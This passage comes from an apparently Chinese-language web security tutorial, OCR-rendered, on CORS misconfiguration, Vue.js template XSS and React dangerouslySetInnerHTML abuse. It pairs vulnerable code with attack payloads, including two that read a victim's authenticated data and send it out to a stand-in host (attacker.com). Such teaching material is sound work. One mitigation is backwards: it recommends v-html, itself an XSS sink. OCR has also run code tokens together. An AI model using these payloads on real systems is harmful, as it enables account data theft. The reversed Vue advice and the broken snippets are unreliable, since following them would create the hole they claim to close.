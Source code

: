 **错误配置示例**  
：  
```
app.use(cors({
  origin: '*'// 危险配置
}))
```  
  
**攻击利用**  
：  
```
<script>fetch('https://api.target.com/user', {credentials: 'include'})  .then(res => res.text())  .then(data => location='https://attacker.com/?data='+btoa(data))</script>
```  
  
**安全加固**  
：  
- • 动态验证Origin请求头  
  
- • 设置Access-Control-Allow-Credentials: false  
  
### 11、Vue.js XSS绕过  
  
**漏洞场景**  
：  
```
// 错误用法
newVue({
  el: '#app',
  template: `<div>${userInput}</div>`// 未转译
})
```  
  
**PoC构造**  
：  
```
userInput = '{{constructor.constructor("alert(1)")()}}'
```  
  
**防御方案**  
：  
- • 始终使用v-html  
指令替代模板插值  
  
- • 启用CSP策略  
  
### 12、 React dangerouslySetInnerHTML滥用  
  
**危险代码**  
：  
```
functionMarkdownPreview({ content }) {
  return<divdangerouslySetInnerHTML={{__html:content }} />;
}
```  
  
**攻击向量**  
：  
```
content = '<img src=x onerror="fetch(\'/profile\').then(r=>r.text()).then(d=>location=\'https://attacker.com?data=\'+btoa(d))">'
```  
  